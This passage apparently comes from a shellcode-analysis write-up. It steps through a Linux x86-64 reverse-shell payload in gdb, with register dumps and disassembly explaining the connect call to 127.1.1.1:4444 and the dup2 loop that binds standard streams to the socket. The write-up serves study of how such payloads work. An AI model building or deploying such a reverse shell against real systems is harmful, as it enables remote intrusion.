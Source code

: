 
The quad word `0x101017f5c110002` becomes the value at the `RCX` register and is then pushed to the stack. The following values are represented in little endian format: 
- `0x101017f`: `127.1.1.1` in decimal which is the address we provided
- `5c11`: `4444` in decimal which is the port to connect to
- `2` which is the protocol family

Also, `RDX` has the value `16` because this is the size of the address struct.

**3<sup>rd</sup> syscall**

```shell
(gdb) c
Continuing.

Breakpoint 4, 0x000000000060108d in code ()
(gdb) info registers
rax            0x21	33
rbx            0x0	0
rcx            0x400474	4195444
rdx            0x10	16
rsi            0x2	2
rdi            0x3	3
rbp            0x7fffffffdc40	0x7fffffffdc40
rsp            0x7fffffffdc20	0x7fffffffdc20
r8             0x0	0
r9             0x15	21
r10            0x0	0
r11            0x306	774
r12            0x400470	4195440
r13            0x7fffffffdd20	140737488346400
r14            0x0	0
r15            0x0	0
rip            0x60108d	0x60108d <code+45>
eflags         0x202	[ IF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
es             0x0	0
fs             0x0	0
gs             0x0	0
```

By disassembling the program we can see that there is a loop executing the `dup2` syscall (number `33`) in order to redirect everything to the socket connected. This syscall takes 2 arguments: `oldfd` and `newfd`. `oldfd` is the return value from the `socket` syscall (`RDI` register) and `RSI` has the values `2`, `1` and `0` in each `dup2` execution for `STDERR`, `STDOUT` and `STDIN` respectively.

```shell
(gdb) disassemble 
Dump of assembler code for function code:
<snip>
   0x0000000000601084 <+36>:	push   0x3
   0x0000000000601086 <+38>:	pop    rsi
   0x0000000000601087 <+39>:	dec    rsi
   0x000000000060108a <+42>:	push   0x21
   0x000000000060108c <+44>:	pop    rax
=> 0x000000000060108d <+45>:	syscall 
   0x000000000060108f <+47>:	jne    0x601087 <code+39>
<snip>
```
